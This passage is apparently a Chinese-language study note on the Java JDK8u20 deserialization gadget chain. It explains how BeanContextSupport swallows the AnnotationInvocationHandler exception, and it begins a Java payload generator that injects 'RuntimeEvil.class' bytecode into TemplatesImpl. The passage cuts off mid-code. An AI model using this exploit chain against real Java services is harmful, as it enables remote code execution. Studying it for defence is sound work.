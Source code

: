 生成的文件一样。这个改了`Contents`和`TC_ENDBLOCKDATA`的序列化文件就能进行反序列化



该在哪插入BeanContextSupport呢？

jdk7u21的链从LinkedHashSet开始

```java
LinkedHashSet.add()
HashSet.readObject ->
	HashMap.put ->
		AnnotationInvocationHandler.invoke-> hashCodeImpl ->
		AnnotationInvocationHandler.invoke-> equalsImpl ->
			TemplatesImpl.newTransformer
```

AnnotationInvocationHandler.readObject抛出的异常必须由BeanContextSupport直接接收，不然抛出到LinkedHashSet或者HashMap都会直接中止程序并报红错。



我们在一开始的LinkedHashSet就强制设置一个字段为BeanContextSupport（包含了需要初始化的AnnotationInvocationHandler对象）。这样在HashSet.readObject一开始就能初始化Anno对象（触发完Anno.readObject)，后面就不会报错了

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240917200003151.png)

可纵观HashSet，一个transient，一个static final，没有一个字段可以强行设置，只有调用add向HashMap装填BeanContextSupport

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240918150224374.png)

就利用到了上面修改Contents和TC_REFERENCE字段的case了



payload直接抄，以后也用不到自己写的

https://xz.aliyun.com/t/8277?time__1311=n4%2BxnD0Dc7ex9DIrxBqroGkDRlW3GCD0guxeTD&u_atoken=21a5f0453c9b225c72d561589e310fe4&u_asig=1a0c380917266645911855714e00d6#toc-5

payload：

```java
package org.example;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;

import javax.xml.transform.Templates;
import java.beans.beancontext.BeanContextSupport;
import java.io.*;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.HashMap;
import java.util.LinkedHashSet;
import java.util.Map;

public class JDK8u20 {
    public static void main(String[] args) throws Exception {
        byte[] code1 = Files.readAllBytes(Paths.get("E:\\CODE_COLLECT\\Idea_java_ProTest\\Test\\target\\classes\\RuntimeEvil.class"));
        TemplatesImpl templatesClass = new TemplatesImpl();
        Field[] fields = templatesClass.getClass().getDeclaredFields();
        for (Field field : fields) {
            field.setAccessible(true);
            if (field.getName().equals("_bytecodes")) {
                field.set(templatesClass, new byte[][]{code1});
```